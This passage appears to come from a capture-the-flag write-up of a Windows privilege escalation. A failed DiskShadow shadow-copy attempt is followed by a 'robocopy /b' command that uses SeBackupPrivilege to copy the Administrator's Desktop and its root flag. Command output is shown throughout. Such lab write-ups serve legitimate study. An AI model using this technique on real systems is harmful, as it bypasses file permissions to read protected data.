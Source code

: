 ---OUTPUT---
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  PRINTER,  4/21/2025 4:26:48 PM

-> set context persistent nowriters
-> set metadata c:\\programdata\\test.cab
-> set verbose on
-> add volume c: alias test

COM call "(*vssObject)->InitializeForBackup" failed.
```
	- This initially I checked if vss service was running and it wasn't so I started but it didn't change anything. I believe it is because this vss service is used for priv esc through another way (I think the intended way)
- We then try to copy a backup of the Adminsitrator's Desktop directory onto temp using robocopy
	```bash
robocopy /b C:\\users\\administrator\\desktop C:\\temp

---OUTPUT---
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Monday, April 21, 2025 2:25:51 PM
   Source : C:\users\administrator\desktop\
     Dest : C:\temp\

    Files : *.*

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           2    C:\users\administrator\desktop\
          *EXTRA File              12288        SeBackupPrivilegeCmdLets.dll
          *EXTRA File              16384        SeBackupPrivilegeUtils.dll
          *EXTRA File                144        vss.dsh
            New File                 282        desktop.ini
  0%
100%
            New File                  34        root.txt
  0%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         2         2         0         0         0         3
   Bytes :       316       316         0         0         0    28.1 k
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :               22571 Bytes/sec.
   Speed :               1.291 MegaBytes/min.
   Ended : Monday, April 21, 2025 2:25:51 PM
```
- The root flag should be available in our temp directory.
	```bash
dir
